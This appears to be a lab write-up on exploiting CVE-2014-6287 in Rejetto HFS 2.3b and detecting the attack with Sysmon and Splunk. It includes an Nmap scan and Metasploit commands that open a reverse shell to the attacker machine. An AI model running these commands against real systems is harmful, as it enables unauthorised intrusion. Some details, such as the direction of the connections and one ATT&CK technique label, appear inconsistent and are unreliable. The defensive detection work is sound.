# HFS (Rejetto HTTP File Server) Exploitation & Detection Lab

A Detection Engineering lab documenting the exploitation of a **Remote Code Execution** vulnerability in **HttpFileServer (HFS) v2.3b** by Rejetto, followed by detecting the resulting activity and building a Correlation Search / Alert in **Splunk** using **Sysmon** logs.

> ⚠️ This content is for educational purposes only. Everything was executed inside an isolated home lab (VMware Workstation). Do not use this against any system you do not have explicit authorization to test.

---

## 🧪 Lab Topology

| Machine | Role | OS | IP |
|---|---|---|---|
| Kali Linux | Attacker | Kali Linux | `192.168.30.128` |
| Windows Server 2016 | Victim | Windows Server 2016 (HFS 2.3b) | `192.168.30.145` |
| Splunk Enterprise 10.4.2 | SIEM / Detection | - | `localhost:8000` |

**Log source:** Sysmon (`Microsoft-Windows-Sysmon/Operational`) forwarded to
Splunk via `index=windows sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"`.

**Exploited vulnerability:** CVE-2014-6287 — HFS 2.3 Remote Command Execution.

---

##  Building the Correlation Search & Alert

### Configuration

| Field | Value |
|---|---|
| **Title** | `HFS Exploitation - Suspicious Child Process` |
| **Description** | `HFS spawning cmd/powershell - possible RCE exploitation (T1210)` |
| **Search** | `index=windows sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 ParentImage="*hfs*" \| table _time ComputerName ParentImage Image CommandLine User` |
| **Alert type** | Scheduled |
| **Cron Schedule** | `*/1 * * * *` (every minute) |
| **Time Range** | Last 15 minutes |
| **Expires** | 24 hours |



### Trigger Conditions

- **Trigger alert when:** Number of Results > 0
- **Trigger:** For each result
- **Throttle:** Enabled (Suppress triggering for 2 minutes) to prevent
  duplicate alerts
- **Severity:** Critical




### Saving and Enabling




---


##  Reconnaissance

Port 80 on the target was scanned with Nmap to confirm the running service version:

```bash
nmap -sV -p 80 192.168.30.145
```

**Result:** The service `HttpFileServer httpd 2.3b` is clearly visible on port 80 — the version affected by the RCE vulnerability.



---

##  Exploitation

The **Metasploit Framework** was used to exploit the vulnerability and obtain a reverse shell:

```text
msf > use exploit/windows/http/rejetto_hfs_exec
msf exploit(windows/http/rejetto_hfs_exec) > set RHOST 192.168.30.145
msf exploit(windows/http/rejetto_hfs_exec) > set RPORT 80
msf exploit(windows/http/rejetto_hfs_exec) > set LHOST 192.168.30.128
msf exploit(windows/http/rejetto_hfs_exec) > set LPORT 4444
msf exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell/reverse_tcp
msf exploit(windows/http/rejetto_hfs_exec) > exploit
```

A malicious request was sent to the server, resulting in command execution on the victim and a reverse shell session opened on port `4444`:



**Attack Chain Summary:**

```
hfs.exe (Parent Process)
   └── wscript.exe //B //NOLOGO %TEMP%\<random>.vbs   (Dropper/Downloader stage)
         └── outbound connection → attacker_ip:80
```

---

##  Alert Triggered

After running the exploit, the alert automatically fired with **Critical** severity:



##  Detection Engineering (Splunk + Sysmon)

### A) Identifying the Suspicious Parent Process

Searching for any Sysmon process creation event (`EventCode=1`) where the `ParentImage` is `hfs.exe` — abnormal behavior for a simple file server:

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=1 ParentImage="*hfs*"
| table _time ComputerName ParentImage Image CommandLine User
```

**Result:** 4 events show that `hfs.exe` spawned `wscript.exe` to execute a VBS file from the temp folder — a classic indicator of a successful exploitation:




### B) Raw Event Details

Reviewing the raw event to confirm process details (PID, user, hash, and the full command line):




Key observed fields:

| Field | Value |
|---|---|
| `Image` | `C:\Windows\SysWOW64\wscript.exe` |
| `CommandLine` | `"C:\Windows\System32\wscript.exe" //B //NOLOGO %TEMP%\wDxNymDs.vbs` |
| `ParentImage` | `C:\Users\Administrator\AppData\Local\Temp\Temp3_hfs2.3b.zip\hfs.exe` |
| `User` | `SADEG\Administrator` |
| `IntegrityLevel` | `High` |

### C) Detecting the Outbound Network Connection (EventCode 3)

Verifying the network connection generated by the compromised process over port 80 (the stager connecting back to the attacker):

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
EventCode=3 Image="*hfs*" | table _time SourceIp DestinationIp DestinationPort
| sort - _time
```

**Result:** 10 connection events from `192.168.30.128` (attacker) to
`192.168.30.145` over port 80:



> Note: a complementary search looking for any `cmd.exe`/`powershell.exe` process connecting directly to the attacker over port 80 returned no results at this time window (0 events). This is expected, since the initial exploitation stage goes through `wscript.exe`, not directly through cmd/powershell:


---

## 🗺️ MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Initial Access / Execution | Exploitation of Remote Services | `T1210` |
| Execution | Command and Scripting Interpreter (VBScript) | `T1059.005` |
| Execution | Windows Script Host (wscript.exe) | `T1218.005` |

---

## 📌 Summary

| Item | Detail |
|---|---|
| **Vulnerability** | HFS 2.3b RCE (CVE-2014-6287) |
| **Exploitation tool** | Metasploit (`exploit/windows/http/rejetto_hfs_exec`) |
| **Log source** | Sysmon → Splunk |
| **Key IOC** | `ParentImage=*hfs*` spawning `wscript.exe` executing a `.vbs` file from `%TEMP%` |
| **Time to detect** | Under 1 minute (Cron: every minute) |
| **Detection outcome** | Alert successfully fired with Critical severity |

---


> 🔒 **Disclaimer:** All exploitation activity was performed in an isolated
> lab environment for educational Detection Engineering / Blue Team
> purposes only.
